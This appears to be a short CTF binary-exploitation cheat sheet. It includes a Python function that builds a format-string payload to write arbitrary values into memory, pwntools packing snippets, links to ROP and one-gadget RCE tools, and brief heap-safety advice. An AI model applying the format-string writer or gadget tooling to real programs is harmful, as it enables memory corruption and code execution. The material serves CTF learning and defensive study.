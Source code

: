 # pwn-cheat-sheet

### Format string - write value into address
###### taken from https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/Binary/12-echo_back-500/solution.md
```python
def write_memory(address, value):
  v1 = (value & 0x0000FFFF) - 8
  v2 = (value >> 16) - (value & 0x0000FFFF)

  if v2 < 0:
    v2 += 0x00010000

  ret = p32(address) + p32(address + 2) + '%{}x'.format(v1) + '%7$hn'

  if v2 != 0:
    ret += '%{}x'.format(v2)

  ret += '%8$hn'

  return ret
  ```
### Pack (int to str)
###### taken from http://docs.pwntools.com/en/stable/util/packing.html
```
p32(0x12345678)         # 4 byte value
p64(0x1234567812345678) # 8 byte value
```

### Unpack (str to int)
###### taken from http://docs.pwntools.com/en/stable/util/packing.html
```
u = make_unpacker(32, endian='little', sign='unsigned') # 4 byte value
u = make_unpacker(64, endian='little', sign='unsigned') # 8 byte value
```

### ROPgadget
###### taken from https://github.com/JonathanSalwan/ROPgadget
This tool lets you search your gadgets on your binaries to facilitate your ROP exploitation. ROPgadget supports ELF, PE and Mach-O format on x86, x64, ARM, ARM64, PowerPC, SPARC and MIPS architectures.

### one_gadget
###### taken from https://github.com/david942j/one_gadget
Tool for finding one gadget RCE in libc

### libc-database
###### taken from https://github.com/niklasb/libc-database
Database of libc functions offsets

### Safe heap managements
* After free(X) set X value to 0
* After malloc(size) reset the memory region you got, or initialize the memory with default safe values

**Without these operations the code may be vulnarble !! (UAF, Double Free, etc..)**
